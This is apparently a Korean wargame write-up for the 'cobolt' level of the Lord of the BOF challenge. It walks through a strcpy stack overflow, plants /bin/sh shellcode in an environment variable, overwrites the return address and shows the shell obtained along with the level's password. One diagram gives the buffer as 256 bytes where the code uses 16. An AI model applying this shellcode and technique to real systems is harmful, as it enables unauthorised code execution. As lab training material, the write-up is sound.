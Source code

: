 ============================================================================================================
[redhat-lob] (2) cobolt
============================================================================================================


.. graphviz::

    digraph foo {
        a -> b -> c -> d -> e;

        a [shape=box, label="dummy * 20 + envp address"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="envp address"];
        e [shape=box, label="dummy * 100 + shellcode"];
    }


|

Source Code
============================================================================================================

.. code-block:: c

    int main(int argc, char *argv[])
    {
        char buffer[16];
        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }

|

Vulnerabliity Vector
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 된다.

.. code-block:: console

    ===============
    LOW     
    ---------------
    Buffer  (256byte)
    SFP     (4byte) 
    RET     (4byte)   
    argc    (4byte)   
    argv    (4byte)   
    envp    (4byte)   <
    ---------------
    HIGH    
    ===============

|

Buffer Overflow
============================================================================================================


.. code-block:: console

    ※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행
    $ bash2
    $ ./cobolt `python -c "print 'a'*16"`

    aaaaaaaaaaaaaaaa

    $ ./cobolt `python -c "print 'a'*20"`

    aaaaaaaaaaaaaaaaaaaa

    Segmentation fault

|

exploit
============================================================================================================

환경 변수 상에 쉘코드 등록
------------------------------------------------------------------------------------------------------------

환경 변수에 쉘코드를 등록해두고, 입력값 마지막 리턴 주소를 환경 변수 주소로 변경하여 해당 쉘코드를 실행하도록 한다.

.. code-block:: console

    $ export shellcode=`python -c 'print "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

|

환경 변수 주소값 확인
------------------------------------------------------------------------------------------------------------

다음과 같이 소스코드를 작성하여 shellcode 환경 변수에 대한 주소 값을 획득.

.. code-block:: c

    #include <stdio.h>
    int main(int argc, char **argv)
    {
            char *addr;
            addr = getenv(argv[1]);
            printf("address %p\n", addr);
            return 0;
    }

.. code-block:: console

    $ gcc -o get get.c

    get.c: In function `main':
    get.c:5: warning: assignment makes pointer from integer without a cast

    $ ./get shellcode

    address 0xbfffff01

|

RET를 환경 변수 주소로 덮어씌워 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ===============
    LOW     
    ---------------
    Buffer  (16byte)  <- dummy
    SFP     (4byte)   <- dummy
    RET     (4byte)   <- envp address
    envp    (4byte)   <- nopsled shellcode
    ---------------
    HIGH    
    ===============

|

오버플로우시 RET를 환경 변수 주소로 덮어씌워 해당 쉘코드가 실행되도록 한다.

.. code-block:: console

    $ ./cobolt `python -c 'print "\x90"*20+"\x01\xff\xff\xbf"'`

    bash$ whoami
    cobolt
    bash$ my-pass
    euid = 502
    hacking exposed



